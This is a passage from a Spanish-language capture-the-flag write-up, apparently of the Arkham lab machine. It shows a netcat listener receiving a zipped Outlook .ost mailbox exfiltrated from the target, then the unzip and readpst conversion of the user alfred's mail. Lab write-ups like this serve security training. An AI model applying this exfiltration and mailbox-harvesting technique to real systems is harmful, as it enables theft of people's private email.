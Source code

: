 Recibimos:

```bash
❭ nc -lvp 4434 > backup.zip
listening on [any] 4434 ...
10.10.10.130: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.130] 49743
```

Y validando:

```bash
❭ ls 
backup.zip
```

Bien, veamos que contiene:

```bash
❭ unzip backup.zip
Archive:  backup.zip
  inflating: alfred@arkham.local.ost
```

> Offline Outlook Data File (.ost) file is used to store a synchronized copy of your mailbox information on your local computer. [Offline Outlook Data File (.ost)](https://support.microsoft.com/en-us/office/introduction-to-outlook-data-files-pst-and-ost-222eaf92-a995-45d9-bde2-f331f60e2790).

Opa, entonces tenemos los directorios de un correo (en este caso de **alfred**) 😮

Bien pues buscando en internet encontramos la herramienta [readpst](https://linux.die.net/man/1/readpst) para convertir este tipo de archivos un formato distinto, por default a un archivo `.mbox`:

```bash
❭ readpst alfred@arkham.local.ost
Opening PST file and indexes...
Processing Folder "Deleted Items"
Processing Folder "Inbox"
Processing Folder "Outbox"
Processing Folder "Sent Items"
Processing Folder "Calendar"
Processing Folder "Contacts"
Processing Folder "Conversation Action Settings"
Processing Folder "Drafts"
Processing Folder "Journal"
Processing Folder "Junk E-Mail"
Processing Folder "Notes"
Processing Folder "Tasks"
Processing Folder "Sync Issues"
Processing Folder "RSS Feeds"
Processing Folder "Quick Step Settings"
        "alfred@arkham.local.ost" - 15 items done, 0 items skipped.
        "Calendar" - 0 items done, 3 items skipped.
Processing Folder "Conflicts"
Processing Folder "Local Failures"
Processing Folder "Server Failures"
        "Sync Issues" - 3 items done, 0 items skipped.
        "Drafts" - 1 items done, 0 items skipped.
        "Inbox" - 0 items done, 7 items skipped.
```
